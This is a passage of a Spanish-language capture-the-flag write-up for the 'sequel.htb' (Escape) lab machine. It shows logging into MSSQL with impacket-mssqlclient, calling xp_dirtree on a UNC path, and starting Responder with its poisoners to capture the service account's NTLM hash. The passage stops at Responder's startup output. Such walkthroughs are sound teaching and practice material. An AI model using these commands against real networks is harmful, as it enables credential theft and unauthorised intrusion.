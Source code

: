 ![](escape2.jpg)

En este caso, anoto dichas credenciales para probarlas en el servicio mssql.
~~~bash
impacket-mssqlclient 'sequel.htb/PublicUser@10.10.11.202'              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.11.202\smb
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)>
~~~
Efectivamente, se tuvo acceso a mssql.

### Aprovechando servicio mssql
En este caso, casi siempre lo que se puede probar es abrir un servicio smb (con el "responder") desde mi maquina atacante y desde mssql enviar una solicitud, de esta forma se puede obtener el hash de la cuenta que corre el servicio (siempre y cuando este mal configurado).
Por lo que se procede a abrir "Responder" desde mi maquina.
~~~bash
sudo responder -I tun0                                       
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
~~~